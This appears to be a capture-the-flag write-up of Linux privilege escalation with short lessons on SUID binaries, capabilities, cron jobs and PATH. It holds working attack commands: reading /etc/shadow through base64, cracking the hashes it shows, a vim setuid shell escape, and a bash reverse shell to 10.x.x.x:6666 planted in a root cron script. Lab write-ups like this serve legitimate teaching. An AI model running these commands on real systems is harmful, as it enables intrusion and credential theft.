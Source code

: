```
cat /etc/passwd
find / -type f -perm 04000 -ls 2>/dev/null
(find GTFOBins: found base64)
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
(use hashes.com and crack the user2 hash, copy user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
)
LFILE=/home/ubuntu/flag3.txt
base64 "$LFILE" | base64 --decode
```

## CAPABILITIES 
Lesson:
Capabilities help manage privileges at a more granular level. A system administrator can change the capabilities of the binary. Use getcap to list enabled capabilities.

```
getcap -r / 2>/dev/null
(search GTFOBins vim capabilities)
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
cd ../ubuntu
cat flag4.txt
```

## CRON JOBS 
Lesson:
Cron jobs are used to run, with the privilege of the owner, scripts or binaries at specific times. The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

```
cat /etc/crontab
vim backup.sh
(add in the end: bash -i >& /dev/tcp/10.x.x.x/6666 0>&1)
chmod 777 backup.sh
./backup.sh
```

#### machine:
```
nc -lvnp 6666
cat ../home/ubuntu/flag5.txt
cat /etc/shadow
(crack matt:$6$WHmIjebL7MA7KN9A$C4UBJB4WVI37r.Ct3Hbhd3YOcua3AUowO2w2RUNauW8IigHAyVlHzhLrIUxVSGa.twjHc71MoBJfjCTxrkiLR.:18798:0:99999:7:::)
```

## PATH 
Lesson:
If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. While PATH is the environmental variable.
